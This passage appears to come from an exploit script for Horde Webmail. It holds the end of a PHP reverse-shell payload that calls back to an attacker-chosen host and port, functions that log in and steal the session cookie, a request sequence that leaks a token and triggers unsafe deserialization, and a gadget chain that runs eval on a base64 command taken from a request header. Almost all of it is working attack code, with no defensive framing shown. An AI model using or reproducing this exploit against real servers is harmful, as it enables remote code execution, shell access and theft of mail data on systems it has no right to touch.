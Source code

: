         $out = '';
        if(substr($c,0,3) == 'cd '){
            chdir(substr($c,3,-1));
        }else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
            break;
        }else{
            $out=PtdSlhY(substr($c,0,-1));
            if($out===false){
                fwrite($s, $nofuncs);
                break;
            }
        }
        fwrite($s,$out);
    }
    fclose($s);""" % (cbh, cbp)

    def get_session(t, p, usr, pwd):
        uri = "http://%s%slogin.php" % (t, p)
        p = {
            "login_post" : 1337,
            "horde_user" : usr,
            "horde_pass" : pwd
        }
        r = requests.post(uri, data=p, allow_redirects=False)
        match = re.findall("Horde=(.{26});", r.headers['set-cookie'])
        assert len(match) == 2, "(-) failed to login"
        return match[1]

    def trigger_deserialization(t, p, s, host, port):
        """ Object instantiation to reach the deserialization """
        handlerthr = Thread(target=handler, args=(port,))
        handlerthr.start()
        uri = "http://%s%sservices/ajax.php/imp/imple" % (t, p)
        p = {
            "imple" : "IMP_Prefs_Sort",
            "app" : "imp",
        }
        h = { "cmd" : base64.b64encode(rs(host, port).encode()) }
        c = { "Horde" : s }
        r = requests.get(uri, params=p, cookies=c, headers=h)
        match = re.search("horde_logout_token=(.*)&", r.text)
        assert match, "(-) failed to leak the horde_logout_token!"
        p['token'] = match.group(1)
        r = requests.get(uri, params=p, cookies=c, headers=h)
        assert r.status_code == 200, "(-) failed to trigger deserialization!"

    def get_pop():
        """ An updated pop chain """
        pop  = 'O:34:"Horde_Kolab_Server_Decorator_Clean":2:{'
        pop += 'S:43:"\\00Horde_Kolab_Server_Decorator_Clean\\00_server";O:20:"Horde_Prefs_Identity":3:{'
        pop += 'S:9:"\\00*\\00_prefs";O:11:"Horde_Prefs":2:{'
        pop += 'S:8:"\\00*\\00_opts";a:1:{'
        pop += 's:12:"sizecallback";a:2:{i:0;O:12:"Horde_Config":1:{'
        pop += 'S:13:"\\00*\\00_oldConfig";s:44:"eval(base64_decode($_SERVER[HTTP_CMD]));die;";'
        pop += '}i:1;s:13:"readXMLConfig";}}'
        pop += 'S:10:"\\00*\\00_scopes";a:1:{'
        pop += 's:5:"horde";C:17:"Horde_Prefs_Scope":10:{[null,[1]]}}}'  # implements Serializable using custom unserialize/serialize
        pop += 'S:13:"\\00*\\00_prefnames";a:1:{s:10:"identities";i:0;}'
        pop += 'S:14:"\\00*\\00_identities";a:1:{i:0;i:0;}}'             # additional checks
        pop += 'S:42:"\\00Horde_Kolab_Server_Decorator_Clean\\00_added";a:1:{i:0;i:0;}}'
        return pop
